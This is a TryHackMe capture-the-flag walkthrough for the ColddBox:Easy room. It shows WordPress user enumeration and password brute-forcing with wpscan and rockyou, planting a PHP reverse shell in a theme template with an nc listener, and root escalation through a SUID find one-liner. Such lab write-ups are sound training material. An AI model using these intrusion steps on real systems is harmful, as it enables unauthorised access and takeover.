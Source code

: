 ```yaml
---
title: ColddBox:Easy WalkThrough
permalink: /colddbox
layout: page
tags: TryHackMe
---
```

# ColddBox:Easy
# ![front](/images/coldd/front.png)
[https://tryhackme.com/room/colddboxeasy](https://tryhackme.com/room/colddboxeasy)

## Open Ports:
- 9: discard
- 80: HTTP

![ports](/images/coldd/ports.png)
	
## Gaining Access:
* Found a wordpress website with version on **nmap** scan `4.1.31`

```
$ wpscan --url http://10.10.176.163  -e vp,vt,u       
````	
![wp](/images/coldd/wp.png)

* Found anuthors/users:

![users](/images/coldd/users.png)
 * Hugo
 * C0ldd
 * Philip

* Now performing password bruteforce for these 3 usernames
```
$ wpscan --url  http://10.10.176.163 --passwords /usr/share/wordlists/rockyou.txt --usernames c0ldd,hugo,philip
```
![passwd](/images/coldd/passwd.png)

* Using this password we can login to /wp-admin
* Go to appearance and editor, select `404 templet` to edit.
* Paste the php revshell from pentestmonkey in the editor 
* Start the listener `nc`
* To execute the revsheel access: `http://ip/>p=404.php`
* Unable to access usr.txt
* Uploading linpeas.sh
* Found suid set on **_find_**

```
$ /usr/bin/find . -exec /bin/sh -p \; -quit
```
*  Now we have root access.

### User Flag:
![uf](/images/coldd/uflag.png)

## Root Flag:
![root](/images/coldd/root.png)
